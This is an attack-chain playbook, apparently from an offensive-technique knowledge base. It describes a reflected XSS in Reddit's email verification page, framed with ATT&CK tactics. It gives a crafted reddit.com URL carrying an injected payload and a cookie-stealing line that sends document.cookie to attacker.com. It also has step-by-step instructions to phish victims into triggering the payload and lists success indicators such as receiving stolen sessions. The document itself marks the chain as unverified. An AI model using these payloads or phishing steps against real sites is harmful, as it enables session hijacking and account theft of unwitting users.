

# Reflected XSS in Reddit Email Verification for Session Theft

Multi-stage attack chain demonstrating a complete attack workflow exploiting unsanitized URL parameters in Reddit's email verification to inject and execute JavaScript, enabling session theft and phishing.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~1 minute |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome, Firefox)

### Target Environment

- Target Platform: Web application (reddit.com)
- Required Services: Email verification endpoint (/verification)
- Network Access: Public internet access to reddit.com

### Initial Access Requirements

- No credentials required
- Victim must be a Reddit user with pending email verification
- Social engineering to lure victim to malicious URL

## Detailed Attack Procedures

### Step 1: Initial Access
procedure: [[procedures/Craft-Malicious-Verification-URL-for-XSS]]

**Objective**: Create a specially crafted URL that injects a JavaScript payload into the /verification endpoint's token parameter, setting up the reflected XSS.

**Instructions**: Construct the malicious URL by appending a JavaScript payload to the token path. For example, use a payload like `alert(document.location)` to test execution, or a more advanced one to steal cookies such as `document.location='https://attacker.com/steal?cookie='+document.cookie`. The full URL would be: `https://www.reddit.com/verification/asd',%20alert(document.location),%20'`. Share this URL via phishing email or social engineering to trick the victim into accessing it.

**Expected Output**: The browser loads the Reddit interstitial page with the unsanitized token reflected in the HTML, but the payload does not execute until the next step.

**Success Indicators**:
- Page loads without errors, showing the email verification interstitial
- URL parameter is accepted and reflected in the page source (inspect HTML to confirm)

### Step 2: Execution
procedure: [[procedures/Trigger-XSS-Payload-via-Button-Click]]

**Objective**: Interact with the verification page to trigger the rendering of the injected payload, executing arbitrary JavaScript in the victim's browser context.

**Instructions**: Once the victim accesses the malicious URL, instruct them (via phishing) to click the 'Verify Email' button on the loaded interstitial page. This action causes the endpoint to process the token and render the page content, executing the injected JavaScript such as `alert(document.location)` or a cookie-stealing redirect.

**Expected Output**: JavaScript executes, e.g., an alert box pops up showing the current location, or cookies are exfiltrated to the attacker's server.

**Success Indicators**:
- Alert or redirect occurs confirming payload execution
- Attacker receives stolen cookies/sessions via the exfiltration endpoint
- Victim's browser session is compromised for phishing or malware

## Attack Chain Summary

### Key Achievements

1. Successful injection of JavaScript via unsanitized URL token
2. Arbitrary code execution in victim browser leading to session theft
3. Potential for phishing, malware distribution, and page modification

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]] JavaScript
- [[Credentials from Web Browsers]] Credentials from Web Browsers

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution
- [[Credential Access]] Credential Access
- [[Collection]] Collection

---
*Last updated: 2023-10-01T00:00:00Z*
